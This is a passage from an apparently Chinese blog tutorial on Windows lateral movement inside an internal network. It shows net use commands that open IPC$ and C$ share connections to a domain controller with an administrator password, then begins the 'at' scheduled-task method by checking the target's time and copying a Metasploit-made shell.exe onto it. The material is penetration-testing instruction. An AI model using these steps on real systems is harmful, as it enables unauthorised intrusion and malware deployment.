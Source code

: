 建立ipc$连接的条件:

> 目标主机开启了139和445端口
> 
> 目标主机管理员开启了ipc$默认共享

在使用完ipc$,命令如下:

> net use \\\\IP /del /y

#### 建立其他共享连接

除了IPC链接，我们还可以与目标主机的其他共享建立连接，比如建立c$盘共享连接：

> net use \\\\192.168.183.130\\c$ "Liu78963" /user:"administrator"

![](https://i-blog.csdnimg.cn/blog_migrate/08c8219d655e167c9be7691e7b0e6a17.jpeg)

列出DC上C盘的目录：

![](https://i-blog.csdnimg.cn/blog_migrate/fea6f18b67a1b3ba14e2d073e05445bc.jpeg)

但一般情况下，我们会建立IPC连接，因为利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。

### 利用Windows计划任务进行横向渗透

#### **利用 at 命令**

at 命令是Windows自带的用于创建计划任务的命令，但是他主要工作在Windows Server 2008之前版本的操作系统中。我们可以通过at命令通过跳板机在目标主机DC上创建计划任务，让计算机在指定的时间执行木马程序，从而获得对内网目标主机的控制。操作如下：

1\. 先与目标主机建立ipc连接。

2\. 再使用net time命令确定目标主机DC的当前时间：

```cobol
`net time \\192.168.183.130`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/e7c54f05b42242b3e02670f10b504d63.jpeg)

3\. 然后使用copy命令远程操作，将metasploit生成的payload文件复制到目标系统C盘中：

```cobol
`copy shell.exe \\192.168.183.130\c$`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/09937d24d3160d71ef2e06f38fd8f5eb.jpeg)
